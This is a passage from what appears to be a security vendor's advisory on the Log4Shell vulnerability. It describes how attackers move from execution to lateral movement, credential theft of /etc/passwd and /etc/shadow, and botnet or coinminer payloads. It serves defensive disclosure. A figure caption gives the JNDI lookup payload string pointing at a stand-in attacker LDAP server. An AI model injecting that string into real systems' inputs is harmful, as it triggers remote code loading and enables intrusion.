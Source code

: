 ![Screenshot of the attacker controlled server](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-actively-exploited/fig2-log4shell.png)
Fig 2. ${jndi:ldap://attacker-controlled-server}




***Execution***


Once the exploit succeeds, depending on the contents of the URL in the lookup, the server then interprets the string. This might then lead to arbitrary shell commands in various forms like Java Class, JavaScript, and Unix shell, among others.  




***Lateral movement***  




Cobeacon components, which can be used for lateral movement, were also seen to be downloaded. These can also be used for lateral movement and might then lead to a possible ransomware infection, as Cobeacon components have been observed in a variety of ransomware attacks.  




***Credential access***  




The vulnerability might also lead to the download of malware with credential-stealing capability, such as Kirabash.  








![Kirabash tries to steal credentials by exfiltrating the /etc/passwd and /etc/shadow files](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-actively-exploited/fig3-log4shell.png)
Fig 3. Kirabash tries to steal credentials by exfiltrating the /etc/passwd and /etc/shadow files




***Impact***


Currently, the observed payloads are the Mirai botnet and Kinsing coinminer. The following are two of the possible impacts:  




* Resource hijacking. Coinminers will use up resources to mine cryptocurrency, while Mirai might use the affected systems as part of its botnet for activities such as distributed denial of service (DDoS) or spamming.
* **Network denial of service (DoS).** Mirai can make use of the affected system to launch DDoS/DoS attacks as part of its routine.


Using Trend Micro Vision One, we conducted a root cause analysis (RCA) to help analysts understand the chain of events of the attacks that attempt to exploit Log4Shell. [View the RCA here](/content/dam/trendmicro/global/en/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-actively-exploited/log4shell_rca.pdf).
